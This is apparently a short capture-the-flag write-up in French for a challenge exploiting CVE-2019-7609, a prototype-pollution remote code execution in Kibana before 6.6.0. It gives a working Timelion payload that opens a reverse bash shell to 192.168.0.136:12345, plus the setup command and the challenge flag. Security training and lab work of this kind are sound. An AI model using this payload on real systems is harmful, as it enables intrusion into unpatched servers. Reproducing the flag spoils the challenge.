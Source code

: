 # Wapiti
## Challenge

## Résolution

RCE sous Kibana < 6.6.0 (CVE-2019-7609)

**POC**

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

**Explication :** [https://slides.com/securitymb/prototype-pollution-in-kibana](https://slides.com/securitymb/prototype-pollution-in-kibana)

## Setup

```
docker-compose up --build -d
```

## Flag

```
PHACK{0p3n_Rc3_In_Kib4n4_i5_gR34t_p0w3r}
```